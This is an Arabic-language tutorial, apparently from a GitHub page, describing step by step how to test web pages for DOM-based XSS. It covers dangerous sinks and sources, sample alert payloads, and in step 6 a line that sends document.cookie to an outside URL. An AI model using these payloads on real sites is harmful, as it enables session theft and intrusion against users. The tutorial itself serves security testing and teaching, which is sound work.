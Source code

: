 { #XSS_DOM  }
## الخطوات العملية للحقن المعتمدة على DOM-Based XSS
1. **إعداد البيئة**:
   - استخدم متصفحًا مع أداة وكيل (مثل **Burp Suite** أو **OWASP ZAP**) لمراقبة الطلبات، على الرغم من أن DOM-Based XSS غالبًا لا يتطلب تدخل الخادم.
   - افتح أدوات المطورين في المتصفح (F12) لمراقبة وحدة التحكم (Console)، مصادر JavaScript، وتغييرات DOM.
   - حدد مصادر الإدخال المحتملة (مثل `location.hash`، `location.search`، `document.referrer`، أو `window.name`) التي قد تُستخدم في JavaScript.

2. **تحديد مصادر الإدخال الخطرة**:
   - افحص شيفرة JavaScript في الصفحة (عبر أدوات المطورين أو عرض المصدر) لتحديد كيفية معالجة الإدخالات.
   - ابحث عن دوال أو خصائص خطرة مثل:
     - كتابة محتوى: `innerHTML`، `outerHTML`، `document.write`.
     - تنفيذ شيفرة: `eval`، `setTimeout`، `setInterval`، `Function`.
     - التلاعب بالسمات: `setAttribute`، `location.assign`.
   - تحقق من مصادر مثل `location.hash`، `location.search`، `document.location`، أو `window.name` التي تُمرر إلى هذه الدوال.

3. **إدخال الحقن**:
   - أدخل شيفرة JavaScript بسيطة في مصدر الإدخال (مثل `example.com/#javascript:alert('XSS')` أو `example.com/?param=<img src=x onerror=alert(1)>`).
   - جرب الحقن في سياقات مختلفة:
     - الهاش: `example.com/#alert('XSS')`
     - معلمات URL: `example.com/?search=<script>alert('XSS')</script>`
     - سمات العناصر: `example.com/#" onload="alert(1)`
   - استخدم حقن تتجنب فلاتر العميل (مثل تجنب وسوم `<script>` إذا تم تصفيتها).

4. **مراقبة الاستجابات**:
   - تحقق من نجاح الحقن بناءً على:
     - **نجاح (True)**: ظهور تنبيه (مثل `alert('XSS')`)، تسجيل رسالة في وحدة التحكم (مثل `console.log('XSS')`)، تغيير عنوان الصفحة، أو تغيير بصري.
     - **فشل (False)**: لا يحدث شيء، أو تظهر الشيفرة كنص عادي في DOM.
   - استخدم أدوات المطورين (F12) لتتبع تنفيذ JavaScript (مثل وضع نقاط توقف عبر Debugger) أو فحص تغييرات DOM.

5. **تجربة صيغ ومصادر مختلفة**:
   - إذا فشلت الحقنة (مثل `example.com/#alert('XSS')`)، جرب صيغًا أخرى (مثل `example.com/#javascript:alert(1)` أو `example.com/#eval('alert(1)')`).
   - اختبر مصادر إدخال أخرى (مثل `window.name` أو `document.referrer`).
   - جرب حقنًا بدون تنبيهات (مثل `example.com/#console.log('XSS')`) لتجنب إزعاج المستخدم.

6. **تأكيد النطاق وتصعيد الاستغلال (اختياري)**:
   - استخدم حقن تكشف نطاق التنفيذ (مثل `example.com/#alert(document.domain)`).
   - تحقق مما إذا كانت الثغرة في بيئة معزولة (مثل iframe أو sandbox).
   - إذا نجحت الحقن، جرب استخراج بيانات (مثل `example.com/#new Image().src='http://localhost?c='+document.cookie`) أو تنفيذ هجمات أكثر تعقيدًا.

---

## جميع المحاولات الممكنة للحقن المعتمدة على DOM-Based XSS
في الحقن المعتمدة على DOM-Based XSS، المحاولات تركز على التلاعب بمصادر إدخال العميل واستغلال دوال JavaScript الخطرة. سأقسم المحاولات إلى فئتين:
1. **الحقن اليدوية**: للاختبار اليدوي عبر تعديل URL أو مصادر العميل.
2. **الحقن للأتمتة**: للاستخدام مع سكربتات أو أدوات آلية.

